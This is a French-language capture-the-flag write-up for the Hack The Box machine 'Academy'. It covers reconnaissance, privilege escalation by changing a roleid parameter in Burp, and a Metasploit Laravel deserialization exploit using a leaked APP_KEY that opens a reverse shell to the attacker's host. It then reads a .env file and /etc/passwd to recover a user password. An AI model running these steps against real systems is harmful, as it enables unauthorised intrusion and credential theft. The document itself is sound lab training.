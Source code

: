 # Machine Academy

## Sommaire

* Lancement
* Connexion
* Exploitation

## Lancement

### Nmap :

Nmap : 
```bash
nmap -A 10.10.10.215 
```
Results :
```
Nmap scan report for 10.10.10.215
Host is up (0.087s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
8080/tcp open  http-proxy?
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/4%OT=22%CT=1%CU=33562%PV=Y%DS=2%DC=T%G=Y%TM=601BDC5A
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=108%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3
OS:=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   94.76 ms 10.10.14.1
2   95.07 ms 10.10.10.215
```

### Associer une IP à un nom de domaine

Editer le fichier `/etc/hosts`, dans la partie IPV4 renseigner l'IP, tabuler, et le nom de domaine associer.

### Dirbuster

Lancer `dirbuster`.

Renseigner la liste voulu pour les tests : `/usr/share/dirbuster/wordlist/directory-list-2.3-medium.txt`.

On remarque alors un chemin de fichier `admin.php` et sur register on peut se créer un compte à la volé.

### Burp

Penser à ajouter le plugin `Burp` au navigateur web.

Faire la redirection de proxy dans les paramètres du navigateur, passer en proxy manuel : avec 127.0.0.1 port 8080.

Dans `Burp` aller dans l'onglet `Proxy`, `Intercept`, le paseer en `on`, bien activer le plugin sur le navigateur et commencer à lancer les requêtes.

:warning: ne pas oublier de `Forward` pour valider les requêtes lancer sur le serveur.

## Connexion en userInvite

### Création de son Login sur academy.htb

Quand on arrive sur la page de connexion et quand on se créer son compte dans la trame `Burt` envoyer sur la dernière ligne on peut apercevoir `roleid=0`.

Changer cette valeure en `1`.

### Connexion au nouveau compte user

aller sur la page de connexion précédemment repérer :
`/admin.php`

Se connecter avec l'utilisateur créée

## Exploitation

### Lien trouvé 
`http://dev-staging-01.academy.htb/`

En aspectant la page sur laquelle on tombe, on peut voir que le serveur utiliser `Laravel` et que la ligne `APP_KEY` n'est pas masqué.

En une petite recherche permet de trouver un site qui nous montre qu'il y a une faille à exploiter.

https://www.rapid7.com/db/modules/exploit/unix/http/laravel_token_unserialize_exec/

Lancer `Metasploit` :
```
use exploit/unix/http/laravel_token_unserialize_exec
show options
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS academy.htb
set LHOST tun0
set LHOST 10.10.14.125
set VHOST dev-staging-01.academy.htb
exploit
```

### Upgrade le shell

Quand on arrive on a un shell sale, afin de pouvoir l'upgrade utiliser python :
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### Recherche Mot de Passe

```
cd ../../academy
cat .env
```
A ce moent on trouve le mot de passe d'un user.

Trouvons le user :
```
cat /etc/passwd | grep /bin
ou
ls /home
```

On remarque un utilisateur que l'on a déjà croisé sur la page `admin.php`.

On se connecte 
```
su nomdelutilisateur
+
le mot de passe 
```

### Trouver le flag user

```
locate user.txt
```

## Ressources 

